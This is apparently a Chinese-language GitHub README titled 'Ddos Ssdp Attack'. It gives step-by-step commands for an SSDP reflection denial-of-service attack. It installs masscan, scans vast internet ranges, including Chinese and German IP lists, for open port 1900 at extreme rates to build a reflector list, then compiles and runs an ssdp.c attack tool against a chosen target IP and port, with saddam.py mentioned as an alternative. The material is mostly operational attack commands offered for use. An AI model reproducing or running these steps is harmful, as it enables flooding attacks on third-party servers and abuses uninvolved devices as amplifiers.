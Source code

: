 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装环境
	yum install git make screen gcc libpcap-dev

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make && make install

### 扫描 Server
	# 最高速扫描全网 SSDP 端口保存为 JSON
	screen masscan 0.0.0.0/4 -p1900 --rate 100000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

> **扫描中国IP段方式**<br>
> screen masscan -iL ip/cn_ip.txt -p1900 --rate 100000000 -oJ ip.json

> **扫描德国IP段方式**<br>
> screen masscan -iL ip/ger_ip.txt -p1900 --rate 100000000 -oJ ip.json

### 攻击 SSDP
	# 请自行过滤后使用!
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>

> 攻击或使用功能更全的 saddam.py 攻击脚本<br>

### 报错 libpcap
	# 从官网下载最新的 http://www.tcpdump.org/release/
	# 或直接用 http://www.tcpdump.org/release/libpcap-1.9.1.tar.gz
	wget -c http://www.tcpdump.org/release/libpcap-1.9.1.tar.gz
	tar zxf libpcap-1.9.1.tar.gz
	cd libpcap-1.9.1
	./configure
	make && make install
	ls /usr/local/lib
	# 发现已经有了libpcap的so了
	vim /etc/ld.so.conf
	# 追加一行
	/usr/local/lib
	# 使用如下命令刷新
	ldconfig

